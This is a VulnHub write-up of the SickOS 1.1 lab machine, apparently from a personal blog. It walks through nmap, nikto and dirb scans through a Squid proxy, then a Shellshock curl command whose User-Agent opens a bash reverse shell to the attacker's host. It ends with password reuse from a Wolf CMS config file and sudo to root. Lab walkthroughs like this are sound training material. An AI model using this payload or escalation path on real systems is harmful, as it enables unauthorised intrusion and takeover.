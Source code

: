 ```yaml
---
title: "VulnHub - SickOS 1.1 Walkthrough"
date: 2020-09-28
tags: [vulnhub, walkthrough]
header:
  image: "/images/sickos11-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


# VulnHub- SickOS 1.1 Walkthrough

Hello, everyone. Today I will share the Boot to Root process in the SickOS 1.1 vulnerable machine. I will share only the successful way. There will not be a lot of information.

## Information Gathering

We are starting with a **Nmap scan** to find open ports and services.

```
root@kali:~# nmap -p- -T4 -A sickos1.local  
...
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)  
...
3128/tcp open http-proxy Squid http proxy 3.1.19  
| http-open-proxy: Potentially OPEN proxy.  
...  
8080/tcp closed http-proxy  
...
```

We see that there is a potential **Squid Proxy Server**. I will try to connect to the victim by port 80. It becomes unsuccessful. Then, I will connect to the Squid Proxy page from Firefox on the port 3128. We front with the page, but there is not a lot of stuff to do.

So I will try to connect to port 80 to our victim, but this time I will use proxy with **FoxyProxy extension** (sickos1.local:3128).

Bingo! We can see the main page of our victim, but there is not anything valuable.

I will know have a **Nikto** search.

```
root@kali:~/SickOS1# nikto -h sickos1.local -useproxy sickos1.local:3128  
...
+ Server may leak inodes via ETags, header found with file /robots.txt, inode: 265381, size: 45, mtime: Sat Dec 5 04:35:02 2015  
...
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).  
...
```

There is the `robots.txt` file. Also, probably, our server is vulnerable ti **Shellshock Bash Bug**.

Firstly, we are looking for `robots.txt`.
```
User-agent: *  
Disallow: /  
Dissalow: /wolfcms
```

There is a `/wolfcms` directory.

We check it and it is a simple Wolf Content Management System.

The second main point that we found from the Nikto search is that the `/cgi-bin/status` directory and it is vulnerable to Shellshock.

More about [Shellshoclk vulnerability](https://www.youtube.com/watch?v=aKShnpOXqn0).


Then we do a search for secret directories and files.
```
root@kali:~/SickOS1# dirb http://sickos1.local -p sickos1.local:3128  
...
---- Scanning URL: http://192.168.12.147/ ----  
+ http://192.168.12.147/cgi-bin/ (CODE:403|SIZE:290)  
+ http://192.168.12.147/connect (CODE:200|SIZE:109)  
+ http://192.168.12.147/index (CODE:200|SIZE:21)  
+ http://192.168.12.147/index.php (CODE:200|SIZE:21)  
+ http://192.168.12.147/robots (CODE:200|SIZE:45)  
+ http://192.168.12.147/robots.txt (CODE:200|SIZE:45)  
+ http://192.168.12.147/server-status (CODE:403|SIZE:295)  
...
```

## Exploitation
Then we try to make a reverse shell connection using this vulnerability.

```
root@kali:~/SickOS1# curl -v -x http://192.168.12.147:3128 -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.12.131/1234 0>&1' http://192.168.12.147/cgi-bin/status  
* Trying 192.168.12.147:3128...
```
Read More About [Shellshock Bash Bug Exploitation](http://garage4hackers.com/showthread.php?t=6902).

Bingo! We have a connection now!

## Privilege Escalation
Then I will try to do more enumeration.

```
www-data@SickOs:/var/www/wolfcms$ cat config.php  
cat config.php  
<?php  

// Database information:  
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)  
// The path can only be absolute path or :memory:  
// For more info look at: www.php.net/pdo  

// Database settings:  
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');  
define('DB_USER', 'root');  
define('DB_PASS', 'john@123');  
define('TABLE_PREFIX', '');
```

We found the `john@123` password. I will try to log in `sickos` account with the same password. I will be successful.

```
sickos@SickOs:/var/www/wolfcms$ sudo -l  
...
User sickos may run the following commands on this host:  
(ALL : ALL) ALL  
sickos@SickOs:/var/www/wolfcms$ sudo su root  
root@SickOs:/var/www/wolfcms# cd /root   
root@SickOs:~# ls  
a0216ea4d51874464078c618298b1367.txt  
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!   
ROOT!
You have Successfully completed SickOS1.1.  
Thanks for Trying  
root@SickOs:~#
```
We have all the privileges, so I try to gain root access and taking a flag.!
Victory! Thanks for reading!

